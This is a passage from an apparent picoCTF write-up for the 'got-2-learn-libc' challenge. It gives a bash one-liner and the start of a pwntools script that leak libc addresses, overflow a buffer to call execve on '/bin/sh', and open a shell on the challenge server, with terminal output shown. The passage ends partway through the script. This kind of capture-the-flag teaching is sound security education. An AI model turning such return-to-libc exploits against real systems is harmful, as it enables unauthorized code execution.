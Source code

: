 Let's wrap that script in some bash magic to give us an interactive terminal and try it out at `/problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33` on the shell server:

```
/problems/got-2-learn-libc_3_6e9881e9ff61c814aafaf92921e88e33$ FIFO="$(mktemp -d)/fifo"; mkfifo $FIFO; cat $FIFO - | ./vuln | tee >(python -c 'import sys, re, struct; p32 = lambda x
 : struct.pack('\''<L'\'',x); matches = re.findall(r'\''(puts|useful_string): (.+)'\'', "".join([sys.stdin
.readline() for x in range(9)])); execve = int(matches[0][1],0) + 0x50520; binsh = int(matches[1][1],0); p
rint("U"*(156+4) + p32(execve)) + "UUUU" + p32(binsh) + p32(0) + p32(0)' > $FIFO; sleep infinity)
Here are some useful addresses:

puts: 0xf75ec150
fflush 0xf75ea340
read: 0xf7661440
write: 0xf76614b0
useful_string: 0x565cb030

Enter a string:
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUp�c�UUUU0�\V
Thanks! Exiting now...
ls
flag.txt
vuln
vuln.c
cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}

This script runs `./vuln`, parses the output, constructs a buffer overflow, sends it back through a named pipe to the input of `./vuln`, which overflows the buffer and launches a shell, and then it starts reading from stdin so you have access to an interactive terminal.

Of course, all of this bash magic is getting a little complicated, so we can do the exact same thing a little simpler using `pwntools`.

```python
#!/usr/bin/env python3
# ~/got2learnlibc_exploit.py

from pwn import *

context.update(arch='i386', os='linux')

p = process("./vuln")

p.recvuntil("puts: 0x")

puts = u32(unhex(p.recvline(keepends=False)), endian='big')
print("puts @ " + hex(puts))

execve = puts + 0x50520
print("execve @ " + hex(execve))

p.recvuntil("useful_string: 0x")
binsh = u32(unhex(p.recvline(keepends=False)), endian='big')

p.recvline_contains("Enter a string:")

payload = b''.join([b'U'*(156+4),
    p32(execve),
    p32(0x55555555), #"return address from execve (not possible)"
    p32(binsh),   #"arg1"
```
